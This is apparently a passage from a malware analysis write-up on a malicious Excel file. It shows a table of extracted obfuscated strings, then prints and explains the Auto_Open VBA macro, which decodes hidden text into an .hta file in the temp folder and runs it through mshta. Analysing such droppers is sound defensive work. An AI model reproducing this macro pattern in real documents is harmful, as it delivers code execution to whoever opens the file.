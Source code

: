 ```
|          |0F'                 |                                             |
|Hex String|'\x00\x02\x08 '     |00020820                                     |
|Hex String|'\x16QPr'           |16515072                                     |
|Hex String|'\x16q\x16\x80'     |16711680                                     |
|Hex String|'\xbf\xf2p\xcf'     |BFF270CF                                     |
|Hex String|'O\x12\x00vN\xde'   |4F1200764EDE                                 |
|Hex String|'\x0c\x82*\xf2'     |0C822AF2                                     |
|Hex String|'\xff\x97\x1f\x81<r'|FF971F813C72                                 |
|Base64    |'$\xbak\xae\x91k'   |JLprrpFr                                     |
|String    |                    |                                             |
|Base64    |'Q\x97\\Q\x07\x89'  |UZdcUQeJ                                     |
|String    |                    |                                             |
|VBA string|'\x00'              |Chr(0)                                       |
|VBA string|'$\xbak\xae\x91k'   |Goto ("JLprrpFr")                            |
|VBA string|%temp%\LwTHLrGh.hta |Environ("temp") & "\LwTHLrGh.hta"            |
|VBA string|mshta               |"msh" & "ta "                                |
+----------+--------------------+---------------------------------------------+
```

At this point there are several tactics:

- rework the VBA and understand its logic?
- find out the IO and trace the calls in Excel / LibreOffice?
- rewrite the scripts in another language and run it?

I'll start with reading the VBA macro to understand the overall logic, and then
reproduce the functionality.

## The macro's logic

The `Auto_Open` function is at the root of the process:

```vba
Sub Auto_Open()
    Dim fHdswUyK, GgyYKuJh
    Application.Goto ("JLprrpFr")
    GgyYKuJh = Environ("temp") & "\LwTHLrGh.hta"
    
    Open GgyYKuJh For Output As #1
    Write #1, hdYJNJmt(ActiveSheet.Shapes(2).AlternativeText & UZdcUQeJ.yTJtzjKX & Selection)
    Close #1
    
    fHdswUyK = "msh" & "ta " & GgyYKuJh
    x = Shell(fHdswUyK, 1)
End Sub
```

It performs the following operations:

- select the cell "JLprrpFr", located in K2: `Application.Goto ("JLprrpFr")`
- select the output path, in the temp directory: `GgyYKuJh = Environ("temp") & "\LwTHLrGh.hta"`
- concatenate 3 strings:
  - `ActiveSheet.Shapes(2).AlternativeText`, the description / alt text of
    the Excel logo in the worksheet 
  - `UZdcUQeJ.yTJtzjKX` is a glocal string variable
  - the content of the selected cell, "JLprrpFr"
- `hdYJNJmt` somehow transforms the whole string into a meaningful format
- its output is then written to the `.hta` file
- execute the file
